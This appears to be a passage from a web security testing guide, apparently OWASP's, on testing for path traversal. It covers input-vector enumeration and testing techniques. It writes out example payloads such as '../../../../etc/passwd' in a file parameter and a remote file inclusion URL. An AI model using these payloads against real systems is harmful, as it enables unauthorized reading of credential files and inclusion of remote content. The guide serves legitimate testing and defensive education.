 1. Input Vectors Enumeration (a systematic evaluation of each input vector)
2. Testing Techniques (a methodical evaluation of each attack technique used by an attacker to exploit the vulnerability)

## Test Objectives

- Identify injection points that pertain to path traversal.
- Assess bypassing techniques and identify the extent of path traversal.

## How to Test

### Black-Box Testing

#### Input Vectors Enumeration

In order to determine which part of the application is vulnerable to input validation bypassing, the tester needs to enumerate all parts of the application that accept content from the user. This also includes HTTP GET and POST queries and common options like file uploads and HTML forms.

Here are some examples of the checks to be performed at this stage:

- Are there request parameters which could be used for file-related operations?
- Are there unusual file extensions?
- Are there interesting variable names?
    - `https://example.com/getUserProfile.jsp?item=ikki.html`
    - `https://example.com/index.php?file=content`
    - `https://example.com/main.cgi?home=index.htm`
- Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
    - `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
    - `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Testing Techniques

The next stage of testing is analyzing the input validation functions present in the web application. Using the previous example, the dynamic page called `getUserProfile.jsp` loads static information from a file and shows the content to users. An attacker could insert the malicious string `../../../../etc/passwd` to include the password hash file of a Linux/UNIX system. Obviously, this kind of attack is possible only if the validation checkpoint fails; according to the file system privileges, the web application itself must be able to read the file.

**Note:** To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting `/etc/passwd` from an IIS web server.

```text
https://example.com/getUserProfile.jsp?item=../../../../etc/passwd
```

Another common example is including content from an external source:

```text
https://example.com/index.php?file=https://www.owasp.org/malicioustxt
```
